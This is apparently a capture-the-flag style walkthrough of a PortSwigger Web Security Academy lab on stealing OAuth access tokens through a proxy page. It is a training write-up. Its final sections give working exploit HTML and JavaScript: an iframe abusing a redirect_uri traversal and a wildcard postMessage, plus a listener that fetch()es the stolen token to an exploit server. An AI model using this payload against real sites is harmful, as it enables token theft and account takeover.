 # Lab: Stealing OAuth access tokens via a proxy page

- [Link](https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-a-proxy-page)

## Tips

Maybe you can divide this lab in two or three parts. The first one is to manipulate the `redirect_uri` which is quite similar to how is done in the [Stealing OAuth access tokens via open redirect](../stealing-access-token-via-open-redirect).

The second part is to find where is the other vulnerability in the client app. This is the most important part, since you will exploit the vulnerability found to steal the access tokens.

And how we can do that? Exploring, of course! Try to see if there's any page that maybe do something exploitable... maybe some blog post page...

<details>
<summary>Click to expand!</summary>

After you enter a blog post (it can be any), look at the JS retrieved. See if there's anything that can be exploitable. Or, if it's not straightforward to you, search for the methods, try to find some documentation that could be interesting!

<details>
<summary>Lost? Click here!</summary>

One thing that ring a bell for me was the method [`postMessage`](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage). This is a thing that you use when you need communication between two components (like a page and an embedded iframe). The docs explictly says:

> **Always provide a specific targetOrigin, not \*, if you know where the other window's document should be located. Failing to provide a specific target discloses the data you send to any interested malicious site.**

In other words, if you don't specify a `targetOrigin` (using `*`), you can potentially disclose some data to a malicious site that could be listening to the messages!

And that's exactly what we'll exploit!

</details>
  
</details>

Congrats if you found the vulnerability! :tada: :tada:

Things are getting interesting, right?! :laugh:

Ok, you found it, but how can we exploit it? Well, the first thing is that we need to listen to the dispatched message. That's quite easy, but if you still need some help, click below!

<details>
<summary>Click to expand!</summary>

[Check this](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage#the_dispatched_event)

</details>

After that, it is exploration time! :pirate_flag:


Here, we don't need to explore the target site anymore, but actually what we could do in our exploit server!

<details>
<summary>Things to try?</summary>

Remember how the `postMessage` works? Well, we could setup an iframe in our exploit server so that we can receive the message content from it. Using the known OAuth server vulnerability and the endpoint that does the `postMessage`, setup it in your exploit server:

```html
<iframe src=https://oauth-server.com/auth?client_id=client-id&redirect_uri=https://target.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=-nonce&scope=openid%20profile%20email></iframe>
```

Now, that you have the iframe, we need to understand more the message structure, so we try to log its content:

```html
<script>
window.addEventListener("message", function(e) {
    console.log(e)
}, false)
</script>
<iframe src=https://oauth-server.com/auth?client_id=client-id&redirect_uri=https://target.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=-nonce&scope=openid%20profile%20email></iframe>
```

Though, the best thing that we can do is:

```js
var a
window.addEventListener("message", function(e) {
    a = e
}, false)
<iframe src=https://oauth-server.com/auth?client_id=client-id&redirect_uri=https://target.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=-nonce&scope=openid%20profile%20email></iframe>
```

That will allow us to play in our Dev Tools for further exploration!

<details>
<summary>The possible solution</summary>

With a little bit of playing in Dev Tools, we can find:

```js
query = a.data.data.split("#").pop()
fetch(`https://exploit-ac1c1f4a1ec1aaa3c0030277012a0011.web-security-academy.net/exploit?${query}`)
```

And that's exactly what we need to build our final exploit:

```js
<script>
window.addEventListener("message", function(e) {
	var query = e.data.data.split("#").pop()
	fetch(`https://exploit-server.web-security-academy.net/?${query}`).then(console.log)
}, false)
</script>
<iframe src=https://oauth-server.com/auth?client_id=client-id&redirect_uri=https://target.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=-nonce&scope=openid%20profile%20email></iframe>
```

</details>

</details>

After all this playing, deliver the exploit to your victim and use the access token to finally!

:tada: :tada: :tada: :tada: :tada:

![Congratulations, you solved the lab!](./assets/congratulations.png)